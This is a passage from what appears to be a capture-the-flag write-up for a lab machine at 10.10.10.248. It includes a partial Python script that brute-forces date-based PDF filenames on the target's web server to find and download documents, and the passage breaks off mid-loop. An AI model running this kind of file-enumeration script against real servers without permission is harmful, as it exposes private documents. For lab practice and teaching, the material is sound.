 ![alt text](../assets/images/intelligence2.png)

okey and those are relly interesting.

![alt text](../assets/images/intelligence3.png)

i think we can extract more data here with pdf flies lets search them. let me try to script python for this.

```bash
import requests
from datetime import datetime, timedelta
import os

# Base URL
base_url = "http://10.10.10.248/documents/"

# Start and end dates for brute-force
start_date = datetime(2020, 1, 1)
end_date = datetime(2020, 12, 31)  # adjust as needed

# Output folder
os.makedirs("pdfs", exist_ok=True)

# Iterate through each date
current_date = start_date
while current_date <= end_date:
    filename = f"{current_date.strftime('%Y-%m-%d')}-upload.pdf"
    full_url = base_url + filename
    print(f"[*] Trying: {full_url}")

    try:
```